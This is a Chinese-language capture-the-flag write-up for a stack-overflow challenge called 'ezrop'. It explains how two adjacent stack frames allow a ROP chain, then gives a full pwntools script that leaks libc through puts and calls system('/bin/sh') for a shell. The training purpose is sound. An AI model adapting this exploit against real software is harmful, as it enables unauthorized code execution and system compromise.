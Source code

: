 ![image-20220428184828336](wp/image-20220428184828336.png)

![image-20220428185000605](wp/image-20220428185000605.png)

主函数是没有漏洞的，但是返回到的函数中却有问题

![image-20220428185103254](wp/image-20220428185103254.png)

如上图存在一个0x10大小的栈溢出，到这里有很多同学想到的是栈迁移之类的操作，又或者是ret2text重新读入数据，但是这里拥有两个输入点，而先后两个函数栈是连在一起的

进行动态调试，将断点设置在调用第二个read的地方

![image-20220428185838231](wp/image-20220428185838231.png)

![image-20220428185818442](wp/image-20220428185818442.png)

这个时候查看栈

![image-20220428192556487](wp/image-20220428192556487.png)

可以看出第一处红框是当前read准备读入的栈地址，第二处红框是当前栈帧的返回地址，下面的111是我们上一次的输入，这几个地方其实连在了一起，因此我们其实可以在第一次输入就开始布置rop链，而在第二次输入时直接ret到这个第一次输入的片段进行rop即可

![image-20220428193654225](wp/image-20220428193654225.png)

直接在溢出部分写入ret将两个栈连接起来，之后就是经典的rop了

```python
# -*- encoding: utf-8 -*-
from pwn import * 
context.update( os = 'linux', arch = 'amd64',timeout = 1)
context.log_level = 'debug'
elf = ELF('./ezrop')
libc = elf.libc

# p = process('./ezrop')
p = remote('0.0.0.0',10002)

l64 = lambda            : u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00'))
sa  = lambda a,b        : p.sendafter(str(a),str(b))


def attack():
    
    puts_got = elf.got['puts']
    puts_plt = elf.plt['puts']
    pop_rdi_ret = elf.search(asm('pop rdi;ret')).next()
    pop_r14_r15_ret = elf.search(asm('pop r14 ; pop r15 ; ret')).next()
    ret = pop_rdi_ret + 1
    main_addr = 0x000000000040120C

    payload = flat(
        pop_rdi_ret , puts_got,
        puts_plt , main_addr
    )
    sa('msg: ' , payload )

    payload = 'a'*0x18 + p64(ret)
    sa('name: ' , payload)
    libc.address = l64() - libc.sym['puts']
    system_addr = libc.sym['system']
    binsh_addr = libc.search('/bin/sh').next()

    payload = flat(
        pop_rdi_ret + 1 ,
        pop_rdi_ret , binsh_addr,
        system_addr 
    )
    sa('msg: ' , payload )
    payload = 'a'*0x18 + p64(ret)
    sa('name: ' , payload)
    
    p.interactive()

attack()

```

